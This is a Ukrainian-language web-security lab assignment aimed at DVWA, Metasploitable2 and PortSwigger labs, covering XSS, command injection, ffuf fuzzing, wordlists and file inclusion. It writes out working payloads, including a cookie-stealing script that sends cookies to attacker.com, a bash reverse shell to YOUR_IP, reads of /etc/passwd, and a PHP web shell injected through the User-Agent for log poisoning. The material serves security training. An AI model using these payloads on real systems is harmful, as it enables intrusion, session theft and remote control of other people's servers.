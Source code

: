 # 🛡️ Lab 3: XSS, RCE, LFI, ffuf та словники (PayloadsAllTheThings, SecLists)

## 📘 Середовище для виконання
- **Metasploitable2** + **DVWA (Damn Vulnerable Web Application)**
- **PortSwigger Web Security Academy** (https://portswigger.net/web-security)

---

## 📚 Теми

### 1. Cross-Site Scripting (XSS)

#### 🎯 Завдання на DVWA:
1. Перейдіть до розділу **DVWA → XSS (Reflected)**:
   - Використайте прості payload-и: `<script>alert(1)</script>`.
   - Обхід фільтрів: `"><script>alert('XSS')</script>`, `javascript:alert(1)`.

2. Перейдіть до **XSS (Stored)**:
   - Спробуйте вставити XSS у повідомлення коментарів або гостьову книгу.
   - Тестування зловмисного JavaScript для крадіжки cookie:
     ```html
     <script>new Image().src="http://attacker.com/log?c="+document.cookie</script>
     ```
   - Результат - отримані cookie у себе на webhook. [interactsh](https://app.interactsh.com/#/)

#### 🧪 PortSwigger Labs:
- [Reflected XSS](https://portswigger.net/web-security/cross-site-scripting/reflected)
- [Stored XSS](https://portswigger.net/web-security/cross-site-scripting/stored)
- Спробуйте пройти хоча б **3 лаби по XSS**.

---

### 2. Remote Code Execution (RCE)

#### 🎯 Завдання на DVWA:
1. Перейдіть до **DVWA → Command Injection**:
   - Введіть `127.0.0.1; whoami` і досліджуйте вивід.
   - Інші корисні команди: `id`, `uname -a`, `cat /etc/passwd`.
   - Спробуйте підключення зворотного шелу:
     ```bash
     127.0.0.1; bash -i >& /dev/tcp/YOUR_IP/4444 0>&1
     ```

2. Підніміть слухач:
   ```bash
   nc -lvnp 4444
   ```

#### 🧪 PortSwigger Labs:
- [OS command injection](https://portswigger.net/web-security/os-command-injection)

---

### 3. Ffuf (Fuzz Faster U Fool)

#### 🛠 Завдання:
1. Проскануйте доступні директорії:
   ```bash
   ffuf -u http://<DVWA-IP>/FUZZ -w /usr/share/seclists/Discovery/Web-Content/common.txt
   ```

2. Сканування параметрів:
   ```bash
   ffuf -u http://<DVWA-IP>/index.php?FUZZ=test -w /usr/share/seclists/Discovery/Web-Content/{}.txt
   ```
---

### 4. Словники: PayloadsAllTheThings + SecLists

#### 📁 Практика:
- Вивчіть структуру словників у:
  - `Seclists/`
  - `PayloadsAllTheThings`

- Використайте наступні словники:
  - `XSS`: `/PayloadsAllTheThings/XSS Injection/`
  - `RCE`: `/PayloadsAllTheThings/Command Injection/`
  - `Brute-force`: `/SecLists/Passwords/Leaked-Databases/rockyou.txt`

---

### 5. Local File Inclusion (LFI) / Path Traversal

#### 🎯 Завдання на DVWA:
1. Перейдіть до розділу **DVWA → File Inclusion**:
   - Введіть `../../../../etc/passwd` у параметр файлу.
   - Протестуйте подвійне кодування: `%252e%252e%252fetc%252fpasswd`.
   - Пошукайте інші файли, наприклад:
     - `/proc/self/environ`
     - `/var/log/apache2/access.log`

2. Спроба інжекції з логів:
   - Вставте шкідливий User-Agent у заголовок:
     ```bash
     curl -A "<?php system($_GET['cmd']); ?>" http://<DVWA-IP>/
     ```
   - Потім зверніться до `/var/log/apache2/access.log?cmd=id`

#### 🧪 PortSwigger Labs:
- [File path traversal vulnerabilities](https://portswigger.net/web-security/file-path-traversal)
- Виконайте хоча б **2 лаби**, включаючи LFI до sensitive files.

---

## 📌 Звітність:
Для кожного завдання:
- Надішліть скріншоти payload'ів та результатів.
- Поясніть, що саме відбулось.
- Якщо були труднощі — коротко опишіть їх.

---

✅ **Рекомендація**: Виконуйте завдання в режимі **Medium** або **High** складності DVWA, якщо вже ознайомлені з логікою на Low.


